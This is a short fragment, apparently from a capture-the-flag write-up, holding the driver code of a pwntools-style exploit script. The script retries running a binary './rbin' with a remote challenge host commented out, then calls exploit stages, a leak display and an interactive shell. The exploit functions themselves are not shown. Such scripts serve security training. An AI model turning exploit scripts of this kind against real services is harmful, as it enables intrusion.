 ```python
sll = lambda x    : cn.sendlineafter(':', x)

while 1:
    try:
        cn = process('./rbin')
        # cn = remote("mc.ax", 31707)
        exp1()
        break
    except EOFError:
        continue

exp2()

slog_show()

ia()


```



:::
